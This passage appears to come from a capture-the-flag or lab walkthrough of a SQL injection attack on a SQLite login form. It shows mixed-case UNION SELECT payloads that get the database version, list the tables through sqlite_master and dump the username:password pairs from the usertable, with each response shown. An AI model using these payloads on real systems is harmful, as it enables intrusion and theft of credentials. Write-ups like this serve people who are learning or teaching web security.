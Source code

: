 ```
' UNIOn SELECt 1 '
```

Response:

```
Password: 1
```

Try fetching the DB version:

```
' UNIOn SELECt sqlite_version() '
```

Response:

```
Password: 3.31.1
```

✅ Confirmed: **SQLite** database.

---

## 7️⃣ Listing All Tables

Dumping table creation SQL:

```
' UNIOn SELECt group_concat(sql) FROM sqlite_master '
```

Response (shortened):

```
Password: CREATE TABLE usertable (...),CREATE TABLE admintable (...)
```

✅ Tables discovered:

* `usertable`
* `admintable`

---

## 8️⃣ Dumping All User Credentials

Use SQLite functions to concatenate and extract data:

```
' UNIOn SELECt group_concat(username || ':' || password) FROM usertable '
```

Response:

```
Password: alice:..., rob:..., michael:..., smokey:..., steve:...
```

✅ All user credentials retrieved successfully.

---